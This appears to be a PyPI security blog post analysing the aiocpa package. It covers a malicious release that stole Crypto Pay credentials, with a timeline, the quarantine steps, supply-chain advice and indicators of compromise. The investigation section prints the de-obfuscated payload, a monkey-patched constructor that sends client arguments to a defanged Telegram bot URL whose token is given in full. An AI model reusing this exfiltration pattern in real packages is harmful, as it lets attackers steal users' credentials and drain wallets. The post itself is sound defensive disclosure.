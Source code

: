 ```yaml
---
title: "Malware Package Analysis: aiocpa"
description: Analysis of a package uploaded to PyPI with malware, and the steps taken to quarantine and investigate.
authors:
  - miketheman
date: 2024-11-25
tags:
  - security
  - transparency
---
```


On 2024-11-21, PyPI was notified about a malware attack with few details.
Upon further investigation, we found that the maintainer was injecting obfuscated code
that will exfiltrate credentials to a specific Telegram bot.
The credentials include tokens, API servers, and other Crypto Pay-related data,
and it is unknown to PyPI Security whether these have been used in any manner.

The project has been removed from PyPI.

If you have installed any versions of `aiocpa`,
audit your usage of the library and consider alternatives.
This may also appear as `cryptopay` on disk,
as that's the internal name of this particular module --
which is not the same as the PyPI package [cryptopay](https://pypi.org/project/cryptopay/)
-- a completely different package.

<!-- more -->

## Timeline (in UTC)

* 2024-09-01 01:04:55 - PyPI user `VoVcHiC` creates project `aiocpa`

    There are a number of releases for this project, changing the code, et al, until version 0.1.13

* 2024-09-01 01:04:55 - aiocpa-0.1.0 released
* 2024-09-01 16:41:55 - aiocpa-0.1.1 released
* 2024-09-01 16:52:35 - aiocpa-0.1.2 released
* 2024-09-03 01:07:24 - aiocpa-0.1.3 released
* 2024-09-06 14:38:17 - aiocpa-0.1.4 released
* 2024-09-18 16:32:36 - aiocpa-0.1.5 released
* 2024-10-12 14:52:50 - aiocpa-0.1.6 released
* 2024-11-09 23:53:50 - aiocpa-0.1.8 released
* 2024-11-12 13:03:46 - aiocpa-0.1.9 released
* 2024-11-12 17:21:34 - aiocpa-0.1.10 released
* 2024-11-13 05:23:01 - aiocpa-0.1.11 released
* 2024-11-20 00:46:20 - aiocpa-0.1.12 released
* 2024-11-20 18:04:41 - **aiocpa-0.1.13 released <= first version to include malware**
* 2024-11-20 18:50:01 - aiocpa-0.1.14 released <= still includes malware

* 2024-11-21 16:18:46 - Inbound report from Karlo Zanki, ReversingLabs
* 2024-11-21 18:15:00 - (approximately) PyPI Security begins evaluation of inbound report
* 2024-11-21 18:29:40 - PyPI Security quarantines `aiocpa` during investigation
* 2024-11-22 Investigation continues, report drafted
* 2024-11-25 Report published

## Investigation

As part of the inbound security reporting protocol,
we request that reporters provide a link to the code in question,
as oftentimes a given Python package can have many lines of code,
spread across many modules.

This report included a brief description denoting the existence of obfuscated code -
which is in violation of the PyPI Acceptable Use Policy - and
[a link to the malicious code](https://inspector.pypi.io/project/aiocpa/0.1.13/packages/ab/98/7343281068a2c39086d0b877219668a487508197f46e89b3f41046a4a8ba/aiocpa-0.1.13.tar.gz/aiocpa-0.1.13/cryptopay/utils/sync.py#line.44).

After inspecting the code, and confirming a large block that
automatically executes when the module is imported,
I set about to also understand the package behavior,
and confirmed it was newly added to the project
in version 0.1.13, and persisted in 0.1.14 as well.

Earlier this year, I was able to
[develop a feature to quarantine a project](2024-08-16-safety-and-security-engineer-year-in-review.md/#project-lifecycle-status-quarantine)
- effectively protecting end users from installing the project while I investigate further.
I also inspected the user's [linked source repository](https://github.com/vovchic17/aiocpa),
and confirmed it had recent commit activity, and generally the same codebase,
but no evidence of the obfuscated code in the source code repo.

The source repository looks like a legitimate project,
and adopts badges, links, quickstarts:
![aiocpa GitHub repository](../assets/2024-11-25-aiocpa-github-screenshot.png)

This is a good reminder to readers that packages on PyPI **do not have** to be
a 1-to-1 representation of a source code repository,
as PyPI hosts source (`sdist`) and built (`wheel`) distribution files of projects.
There is no requirement for these to be in sync.
Some differences would be natural, such as a compiled binary file
in a built distribution would be created during a build phase
and included in the installable artifact.
Read more about this in the [Python Packaging Guide](https://packaging.python.org/en/latest/flow/).

Now that I was pretty certain that this was newly-introduced obfuscated code
to an existing library,
I wrote a function that would help me de-obfuscate this code.
This isn't always part of every analysis,
especially if we've seen this specific behavior before.
Since this wasn't a new user account or new project,
I wanted to be sure before removal, a destructive action.

The code was wrapped in 50 layers of obfuscation,
using techniques like byte-encoding, compression, and reversals,
finally looking like this:

```python
from cryptopay.client import CryptoPay
import urllib

init = CryptoPay.__init__

def __init__(*args, **kwargs):
    init(*args, **kwargs)
    try:
        urllib.request.urlopen(f"hxxps://api[.]telegram[.]org/bot7858967142:AAGeM6QvKdEUK9ZWD9XoVM_Zl1cmj_mlyJo/sendMessage?chat_id=6526761736&text={args[1:]}")
    except: pass

CryptoPay.__init__ = __init__
```
_(I've modified the URL so it isn't easily clickable)_

When a user/other code runs the equivalent of `import cryptopay`,
the top-level module imports the `CryptoPay` class from `cryptopay.utils.sync`.

When the library imports the `sync` module, the obfuscated code is evaluated,
which overrides the constructor for the [main client class](https://github.com/vovchic17/aiocpa/blob/553ebcea27f993a2ba9439374eb619ee64f7ff5b/cryptopay/client/client.py#L23-L39),
which then will post the client's `args` to the configured Telegram bot endpoint,
usually a token, API server address, presumably to drain a crypto wallet.

## Thoughts

This attack appears to be in the style of creating what appears to be useful software,
releasing it to the public, seeing some adoption of use,
and including malicious behaviors later.
This is a relatively rare occurrence, which is why it's notable.

The author had previously published another Python library
that does not appear to have any malware in it, so we have left it as is.

The author had also opened a request to take over an existing project name.
This is a semi-common support request usually handled by the [PyPI Support Specialist](2024-03-20-announcing-a-pypi-support-specialist.md),
referred by PyPI Admins after further review for final decision.
This request had not yet started initial review,
we have denied it and closed the request.
It's possible that the author was trying to adopt a more legitimate-appearing name
to attract more victims, we may never know.

The possibility for project name transfers is a reminder to
pin your dependencies and versions - and level up by
using hashes to prevent unwanted updates to existing package/version constraints.
Some tools can do this today, and read [PEP 751 – A file format to record Python dependencies for installation reproducibility](https://peps.python.org/pep-0751/)
for a recent proposal on that front.

You may also want to set up further protections like outbound network firewalls
to monitor or prevent network calls to unknown destinations,
which is far beyond the scope of Python package security, but generally a good practice.

Previous steps for PyPI - [Trusted Publishers](2023-04-20-introducing-trusted-publishers.md),
[Identity Attestations](2024-11-14-pypi-now-supports-digital-attestations.md),
and work-in-progress efforts like build artifact attestations,
[software bill of materials (SBOMs)](https://github.com/psf/sboms-for-python-packages)
- are all steps to add more security to the overall supply chain
so end users can have more confidence that what exists in a source code repository
is reliably what ended up in their installed environment.

PyPI receives over 500 inbound malware reports per month from a variety of sources.
Most valid reports are from volunteer security researchers in the community
that have built up a practice of scanning and manually confirming malicious behaviors,
and reporting them to PyPI via the mechanisms we've developed to enable rapid response.

We're proud to provide PyPI as a free service relied on by
a massive number of users for an equally massive set of use cases.
We're also proud that we not only maintain gold-standard security practices,
but we are helping to continuously push those standards higher in the industry.
We believe that being a community-driven service run by an independent,
non-corporate entity has been core to PyPI's success.
Because of that independent, nonprofit status,
we rely on our community to support our work.
If you benefit from our work to keep PyPI thriving and secure, please
[consider donating to the Python Software Foundation](https://www.python.org/psf/donations/)
so we can keep [moving that work forward in 2025](https://pyfound.blogspot.com/2024/11/help-power-python-2024-fundraiser.html)
and beyond.

## Indicators of Compromise (IoC)

* Package name: `aiocpa`
* Obfuscated code: `https://inspector.pypi.io/project/aiocpa/0.1.13/packages/ab/98/7343281068a2c39086d0b877219668a487508197f46e89b3f41046a4a8ba/aiocpa-0.1.13.tar.gz/aiocpa-0.1.13/cryptopay/utils/sync.py#line.44`
* Target endpoint: `https://api[.]telegram[.]org/bot7858967142:AAGeM6QvKdEUK9ZWD9XoVM_Zl1cmj_mlyJo`
* GitHub source repository, does not contain the malware: `https://github.com/vovchic17/aiocpa`
* Gist of `aiocpa` differences between versions 0.1.12 and 0.1.13 (contains malware): https://gist.github.com/miketheman/b09eedecf559026ae2ec0c44ad980f71#file-aiocpa-12-13-diff-L128

